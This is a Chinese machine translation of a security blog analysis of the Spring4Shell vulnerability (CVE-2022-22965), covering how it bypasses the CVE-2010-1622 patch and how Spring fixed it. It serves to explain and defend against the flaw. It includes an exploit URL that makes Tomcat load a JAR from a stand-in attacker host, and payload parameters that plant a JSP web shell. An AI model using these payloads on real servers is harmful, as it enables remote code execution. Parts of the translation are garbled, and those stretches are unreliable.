





# CVE 春天 4 号的解剖图-2022–22965

> 原文：<https://infosecwriteups.com/anatomy-of-spring4shell-cve-2022-22965-e0df259cef9d?source=collection_archive---------1----------------------->


2022 年 3 月 29 日，一个非常流行的 Java 开源框架 Spring Framework 披露了一个严重的远程代码执行漏洞。该漏洞被命名为 CVE-2022–22965，它源于 2010 年修复另一个远程代码执行的补丁，该补丁被分配为 CVE-2010–1622。解决 CVE-2010–1622 的宽松限制为 CVE-2022–22965 铺平了道路。这篇博文将分析 CVE-2010–1622 的补丁是如何被绕过并导致 CVE-2022–22965 的。最后，您将看到 Spring Framework 提供的解决方案来解决 CVE-2010–1622 和 CVE-2022–22965 的漏洞。

# 必备知识

# Tomcat AccessLogValve

CVE-2022–22965 的要求之一是 Apache Tomcat 充当易受攻击的 web 应用程序中的 Servlet 容器。

Tomcat 使用 org . Apache . catalina . valves . accesslog valve 来管理 access_log 文件设置，并且在 Tomcat 附带的 conf/server.xml 文件中有相关的配置。

```
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```

AccessLogValve 的一些关键选项如下:

**目录**:该阀门创建的日志文件所在目录的绝对或相对路径名。如果指定了相对路径，它将被解释为相对于$CATALINA_BASE。如果未指定目录属性，则默认为“logs”(相对于$CATALINA_BASE)。

**前缀**:加在每个日志文件名开头的前缀。如果未指定，默认值为“access_log”。

**模式**:一种格式布局，标识要记录的请求和响应中的各个信息字段，或者选择常用词组合。

**后缀**:添加到每个日志文件名末尾的后缀。如果未指定，默认为" "(零长度字符串)，这意味着不会添加后缀。

**文件日期格式**:允许在访问日志文件名中自定义时间戳。每当格式化的时间戳改变时，文件就旋转。默认值为。yyyy 年月日。如果希望每小时轮换一次，则将该值设置为。yyyy-MM-dd.HH。

> *注意:修改文件日期格式会触发日志文件切换。*

CVE-2022–22965 的攻击利用了 AccessLogValve 类，引用该类的实例并在运行时修改其属性。我们将在 CVE-2022–22965 有效载荷中再次看到它。

# 关于 JavaBean 参数绑定

CVE-2022–22965 只影响 Spring 默认绑定。Spring 使用数据绑定来解析 HTTP 请求。提交的参数可以自动动态绑定到一个 java bean 对象，该对象执行类型转换和值赋值。

一个简单的例子用来解释参数绑定是如何工作的。有一个非常基本的 web 应用程序，包含 ExploitMeController.java、User.java 和 Department.java，它们分别定义如下:

ExploitMeController.java

```
@Controller
public class ExploitMeController {
​
    @GetMapping("/exploitme")
    public String exploitMeForm(User  user, Model model) {
        System.out.println(user);
        return "hello";
    }
}
```

User.java

```
public class User {
    private String name;
    private Department department;
​
    public String getName() {
        return name;
    }
​
    public void setName(String name) {
        this.name = name;
    }
​
    public Department getDepartment() {
        return department;
    }
​
    public void setDepartment(Department department) {
        this.department = department;
    }
}
```

Department.java

```
public class Department {
    private String name;
​
    public String getName() {
        return name;
    }
​
    public void setName(String name) {
        this.name = name;
    }
}
```

当客户提出以下请求时:

[*http://localhost:8080/spring 4 shell/exploit me？name = APP&department . name = SEC*](http://localhost:8080/spring4shell/exploitme?name=APP&department.name=SEC)

*姓名*绑定到用户名*部门名*绑定到用户名



HTTP 请求参数中 *department.name* 的绑定过程简化为以下方法链:

```
User.getDepartment()
    Department.setName() //it is setName
```

如果更进一步，将上述应用程序的请求参数更改为 a.b.c.d，方法链就变成了(假设方法链中每个对象的所有访问器和赋值器都已定义) :

```
User.getA()
        a.getB()
            b.getC()
                c.setD() //it is setD
```

# 前奏:CVE——2010 年至 1622 年

有了一些参数绑定的基础知识，我们将看看 CVE-2010–1622。CVE-2010–1622 的关键概述如下:

1.  所有 Java 对象都隐式包含一个 *getClass()* 方法，该方法返回描述对象类的运行时类对象。
2.  *类*对象有一个 *getClassLoader()* 访问器来获取 ClassLoader 对象。ClassLoader 负责加载类。
3.  Tomcat 为其 web 应用程序提供了自己的类加载器。这个类装入器包含各种成员。其中之一是 *URLs* ，这是类加载器用来检索资源的 URL 数组。
4.  如果该 URL 被另一个指向攻击者控制的 JAR 文件的 URL 覆盖，就会导致 Tomcat 远程加载该 JAR 文件。

以下利用示例说明了该漏洞是如何在外界被操纵的:

1.  攻击者创建 exp.jar 并通过[*http://attacker/exp . jar*](http://attacker/exp.jar)*使其可用。*这个罐子应该包含两种文件:

*   定义一些标签并指定这些标签的 spring-form.tld 被实现为标签文件。
*   包含任意 Java 代码的标记文件。

2.攻击者发送带有精心编制的参数的 HTTP 请求: [http://demo/login？class . class loader . URLs](http://demo/login?class.classLoader.URLs)[0]= jar:[http://attack/exp . jar！/](http://attacker/exp.jar!/) 。

此时，WebApp 类加载器的 repositoryURLs 属性的第零个元素被攻击者的 URL 覆盖。

3.在服务器端，下载 exp.jar，解析 tld 文件中定义的标记，然后执行远程代码。

# CVE 补丁-2010–1622

该漏洞的罪魁祸首是参数绑定。类加载器包含许多可以在运行时从外部设置的成员，因此它产生了许多安全问题。在这种情况下，Spring 发布了一个补丁来拒绝 classLoader。

在 CachedIntrospectionResults 方法中，补丁以绿色矩形突出显示，pd 是一个 java.beans.PropertyDescriptor 实例，它描述了 Java bean 的属性(name/getter/setter/…)。



当 class.classLoader 在利用有效负载 [*http://localhost/login？class . class loader . URLs*](http://localhost/login?class.classLoader.URLs)*【0】= jar:*[*http://attack/exp . jar！/*](http://attacker/exp.jar!/) 被绑定，它符合条件:Class.class == beanClass 和“classLoader”。equals(pd.getName())(即属性名是 classLoader)，所以 *class.classLoader* 不会解析，从而阻止了攻击。

在简化的参数绑定方法链中，补丁的工作方式如下:



# 揭开 CVE 的神秘面纱

现在是 CVE 2022-22965 的时候了。大量博客帖子提供了 CVE-2022–22965 的概念验证，例如[*https://check Marx . com/resources/home page/spring shell-remote-code-execution-via-spring-web*](https://checkmarx.com/resources/homepage/springshell-remote-code-execution-via-spring-web)*。*

典型的有效负载如下所示:

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=[Web shell code]
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

class . module . class loader . resources . context . parent . pipeline . first . *对应于 Tomcat [AccessLogValve](https://tomcat.apache.org/tomcat-7.0-doc/api/org/apache/catalina/valves/AccessLogValve.html) 类，该类将访问日志输出到背景知识部分中提到的文件。是 JDK 9 推出的模块系统(这也解释了为什么这个漏洞的范围是 JDK 9+)。

我们可以通过 HTTP 请求参数修改 AccessLogValve 属性，比如[class . module . class loader . resources . context . parent . pipeline . first . pattern](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/valves/AbstractAccessLogValve.html#pattern)，在 web apps/根目录下创建一个带有恶意代码的 JSP 文件。关于 POC 的更多信息可以很容易地在网上找到。

在下图中，有效负载[class . module . class loader . resources . context . parent . pipeline . first . pattern](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/valves/AbstractAccessLogValve.html#pattern)的参数绑定过程中的方法链展示了它如何绕过 CVE-2010–1622 的补丁(在绿色矩形中):



# 解决办法

对 CVE-2010–1622 的修复是不完整的，因此出现了利用遗留缺陷的新路径。现在 Spring Framework 5.3.18 和 5.2.20 都修复了 bug，主要补丁[如下](https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15):



对 Java 所做的更改(在 JDK 9 中引入模块系统)使 CVE-2010–1622 的 Spring Framework 黑名单方法失效。从上面的代码更改中可以看出，CVE-2010–1622 修复中的黑名单方法被替换为白名单方法，以仅允许安全类属性。**白名单是一种比黑名单**更严格的方法，它被用作针对报告的攻击媒介的更充分的解决方案。但不幸的是，在 Spring Framework 这样的复杂框架中，拒绝危险的功能仍然很普遍。